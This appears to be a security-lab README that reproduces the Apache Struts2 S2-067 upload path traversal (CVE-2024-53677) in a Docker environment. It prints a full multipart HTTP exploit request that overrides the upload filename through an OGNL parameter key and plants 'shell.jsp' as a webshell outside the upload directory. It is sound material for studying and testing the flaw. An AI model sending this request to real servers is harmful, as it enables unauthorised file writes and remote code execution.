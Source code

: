 # Struts2 S2-067 Upload Path Traversal (CVE-2024-53677)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.

S2-067 is a variant of the S2-066 vulnerability, which emerged due to an incomplete fix. While S2-066 was caused by case-sensitive comparison issues leading to filename override and directory traversal, S2-067 exploits a different mechanism to achieve the same result.

In Struts2, all parameter keys are evaluated as OGNL expressions during transmission. This feature has historically led to multiple remote code execution vulnerabilities through OGNL expression injection. Although Struts2 has implemented strict parameter key validation to prevent RCE vulnerabilities, the expression evaluation still occurs. S2-067 leverages this expression evaluation mechanism to override the upload filename again, ultimately leading to directory traversal issues.

References:

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## Environment Setup

Execute the following command to start a web server written in Struts2 2.5.33:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to access the application, which is a simple file upload page.

## Vulnerability Reproduce

Before reproducing the S2-067 vulnerability, you need to read the [S2-066](../s2-066/README.md) first and understand the principle of the vulnerability.

On this server, you cannot use the same payload as in S2-066, because the case sensitivity issue has been fixed.

![](1.png)

Use OGNL expression `top.fileFileName` in the parameter key of filename, then the file will be uploaded to outside the `upload/` directory again:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

Note the key elements in the exploit:

- Instead of using case sensitivity like in S2-066, we use OGNL expression evaluation in the parameter key
- The parameter key `top.fileFileName` is evaluated as an OGNL expression
- This evaluation allows us to override the filename with the path traversal payload `../shell.jsp`

![Successful Upload](2.png)

The JSP file is now uploaded outside the restricted upload directory and can be executed:

![Webshell Execution](3.png)

You can now access the webshell at `http://your-ip:8080/shell.jsp`.
